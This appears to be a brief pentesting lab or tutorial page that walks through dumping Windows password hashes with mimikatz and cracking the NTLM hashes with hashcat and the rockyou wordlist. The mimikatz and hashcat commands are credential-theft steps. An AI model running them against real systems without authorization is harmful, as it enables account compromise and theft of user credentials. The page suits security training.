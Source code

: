 # Dumping hashes w/ mimikatz

\


### Dump Hashes w/ mimikatz -

1.) `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary\


<div align="left">

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

</div>

\
2.) `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly\


<div align="left">

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

</div>

\
3.) `lsadump::lsa /patch` Dump those hashes!\


<div align="left">

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

</div>

### Crack those hashes w/ hashcat

﻿

1.) `hashcat -m 1000 <hash> rockyou.txt`   &#x20;

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

\
Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz\
